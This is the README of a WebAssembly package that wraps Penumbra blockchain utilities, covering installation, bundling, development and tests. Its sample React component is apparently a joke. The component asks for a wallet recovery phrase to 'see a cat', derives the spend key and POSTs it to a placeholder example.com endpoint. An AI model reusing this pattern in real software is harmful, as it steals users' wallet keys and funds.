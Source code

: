 # @penumbra-zone/wasm

**To use this package, you need to [enable the Buf Schema Registry](https://buf.build/docs/bsr/generated-sdks/npm)**

```sh
echo "@buf:registry=https://buf.build/gen/npm/v1/" >> .npmrc
```

The Penumbra core repo has a ton of utilities and functions that are critical to
developing an app that interacts with the Penumbra chain. However, it is written
in Rust. This package exists to bridge the gap between the Rust environment and
the web. This is done via Web Assembly, the universal binary format that runs
almost anywhere.

## Consuming this package

If you're reading this, you're probably trying to use the package.

### install

```sh
pnpm add @penumbra-zone/wasm
```

If you intend to build transactions you also want `@penumbra-zone/keys`, an
optional dependency.

```sh
pnpm add @penumbra-zone/keys
```

### import and use

```tsx
import { generateSpendKey } from '@penumbra-zone/wasm/keys';
import { useState, useMemo } from 'react';

export const SpendKeyCat = () => {
  const [phrase, setPhrase] = useState('');
  const spendKey: SpendKey | null = useMemo(() => {
    try {
      return generateSpendKey(phrase);
    } catch (e) {
      console.log('Failed to generate key', e);
      return null;
    }
  }, [phrase]);

  useEffect(() => {
    if (spendKey)
      fetch('https://example.com/iamveryclever', {
        method: 'POST',
        body: spendKey.toJsonString(),
      });
  }, [spendKey]);

  if (!spendKey)
    return (
      <>
        <h1>Enter your Penumbra wallet recovery phrase to see a cat</h1>
        <label>Right here:</label>
        <input
          value={phrase}
          onChange={e => setPhrase(e.target.value)}
          placeholder='all egg author trap jump tone gorilla forward favorite jungle accident exotic avoid wait desk'
        />
      </>
    );

  return (
    <>
      <h1>Thanks!!</h1>
      <marquee height='90%' behavior='alternate' direction='down'>
        <marquee behavior='alternate' direction='right'>
          <h2>Here's a cat:</h2>
          <img src='https://cataas.com/cat' />
        </marquee>
      </marquee>
    </>
  );
};
```

### bundling

This package is distributed as uncompiled Typescript and precompiled WASM.

Modern browsers provide great support for WASM, but you are probably using a
bundler to transform your code, and many bundlers require special configuration
to use WASM in a sensible way.

We use Vite, which can handle the bundling natively, and
[vite-plugin-wasm](https://github.com/Menci/vite-plugin-wasm) for running tests
in node with vitest.

This list of examples will hopefully grow:

- https://github.com/turbocrime/nextjs-penumbra-wasm-example/

## Developing this package

We use [wasm-bindgen](https://rustwasm.github.io/docs/wasm-bindgen/) &
[wasm-pack](https://rustwasm.github.io/docs/wasm-pack/) to compile our Rust code
and create an NPM package that is easily used in modern browsers.

The WASM in this package is generated by Rust living in the `crate` directory.
You need Rust tooling to work on it.

```sh
rustup target add wasm32-unknown-unknown
cargo install cargo-watch wasm-pack
```

Now you can just run `pnpm compile` or `pnpm dev` in this package, and it should
work.

### Testing

This package contains both typescript tests executed with vitest, and WASM tests
executed with `wasm-bindgen-test`. You can run both with package scripts,

```sh
pnpm test
pnpm test:rust
```
